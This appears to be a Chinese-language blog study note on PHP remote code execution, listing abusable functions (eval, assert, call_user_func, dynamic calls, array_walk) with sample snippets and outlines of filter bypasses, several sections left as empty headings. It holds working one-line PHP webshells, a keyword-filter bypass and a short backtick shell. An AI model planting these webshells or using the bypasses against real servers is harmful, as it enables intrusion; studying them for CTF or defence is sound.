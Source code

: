 ```yaml
---
title: 简单代码执行的学习
date: 2022-09-10 16:48:24
tags:
- rce
categories: 
- web
- 笔记
---
```


## 常见函数

> https://blog.csdn.net/qq_32108547/article/details/95649397

### eval()

eval() 函数把字符串按照 PHP 代码来计算，如常见的一句话后门程序：

`<?php eval($_POST[cmd])?>`

### assert()

与eval类

```php
<?php
    //?cmd=phpinfo() 
    assert($_REQUEST[cmd]); 
?>
```

### call_user_func()/call_user_func_array ()

call_user_func — 把第一个参数作为回调函数调用,其余参数是回调函数的参数。

call_user_func_array — 调用回调函数，并把一个数组参数作为回调函数的参数

```php
<?php 
    //?cmd=phpinfo()
    @call_user_func(assert,$_GET['cmd']);
?>

<?php 
    //?cmd=phpinfo()
    $cmd=$_GET['cmd'];
    $array[0]=$cmd;
    call_user_func_array("assert",$array);
?>
```

### 动态函数

```php
<?php 
//?a=assert&b=phpinfo()
$_GET['a']($_GET['b']);
?>
```

### array_walk()和array_walk_recursive()

array_walk — 使用用户自定义函数对数组中的每个元素做回调处理

```php
function myfunction($value,$key) {
    echo "键 $key 的值是 $value 。<br>";
}

$a1=array("a"=>"red","b"=>"green");
array_walk($a1,"myfunction");
```

```
键 a 的值是 red 。
键 b 的值是 green 。
```

array_walk_recursive — 对数组中的每个成员**递归**地应用用户函数

```php
function myfunction($value,$key) {
    echo "键 $key 的值是 $value 。<br>";
}

$a1=array("a"=>"red","b"=>"green");
$a2=array($a1,"1"=>"blue","2"=>"yellow");
array_walk_recursive($a2,"myfunction");
```

```php
键 a 的值是 red 。
键 b 的值是 green 。
键 1 的值是 blue 。
键 2 的值是 yellow 。
```

## 常见防护

### 字符过滤型

关键字符: `< ? ; ()`被过滤后  难度较高

如果只是过滤**函数名字** 绕过方法较多

```php
if(!preg_match("/system|func|array|preg|eval|exec|passthru/i",$code)){
    eval($code);
}

// code = ("sys"."tem")("ls");
```

过滤`<?>`的标签替代

```php
<? echo "123";?> //short_open_tags=on
<?=(expr);?> <=> <?php echo (expr);?>
<% echo "123";%> //asp_tags=on && php<7.0
<script language="php">echo "123";</script> //php<7.0
```

### 长度限制型

```php
<?`$_GET[1]`; // 长度13的限制
```

### 函数禁用型

`disable_functions`

#### 0x01 LD_PRELOAD

...

#### 0x02 Apache Mod CGI

...

#### 0x03 PHP-FPM

...

### 构造绕过型

...

#### 异或构造

...

#### 或构造

...

#### 取反构造

...

#### 自增构造

...
